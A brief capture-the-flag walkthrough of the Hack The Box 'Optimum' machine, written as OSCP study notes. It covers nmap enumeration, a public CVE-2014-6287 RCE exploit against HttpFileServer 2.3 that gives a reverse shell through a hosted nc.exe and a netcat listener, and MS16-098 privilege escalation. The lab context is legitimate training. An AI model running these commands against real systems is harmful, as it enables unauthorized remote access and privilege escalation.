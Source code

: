 ```yaml
---
layout: single
title: "optimum"
categories: htb
classes: wide
---
```


```bash
nmap -v -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 04:26 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 04:26
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 04:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:26
Completed Parallel DNS resolution of 1 host. at 04:26, 0.01s elapsed
Initiating SYN Stealth Scan at 04:26
Scanning 10.10.10.8 [1000 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 04:27, 16.32s elapsed (1000 total ports)
Initiating Service scan at 04:27
Scanning 1 service on 10.10.10.8
Completed Service scan at 04:27, 6.48s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 04:27
Completed NSE at 04:27, 0.99s elapsed
Initiating NSE at 04:27
Completed NSE at 04:27, 0.93s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```
Only one port is open. Nmap revale the Http Version.
With that version i found a RCE exploit in:
```
[link]
(https://gist.github.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9)
```

Download the exploit:
```bash 
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py

```

Before launcing the exploit i first edited as follows:
```python
    ip_addr = "10.10.14.7:8000" #local IP address
    ip_addr1="10.10.14.7"
    local_port = "443" # Local Port number
```

In another terminal i hosted nc.exe and started python server in the same working directory:
```bash
    python -m SimpleHTTPServer
```
And another terminal listening in port 443:
```bash
nc -lvp 443
```
Finally executing the exploit give a shell:
```bash
python cve-2014-6287.py 10.10.10.8 80
```

##Escalation

We can escalate in two way:

```
https://gist.github.com/intrd/6dda33f61dca560e6996d01c62203374
```

And 

```
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
```

For quick escalation download bfill from second link, upload to the box and execute like:
```bash
.\bfill.exe 
```
And you are root :).



Note: I have quickly, wrote this note as i am preparing for OSCP!

Thanks!

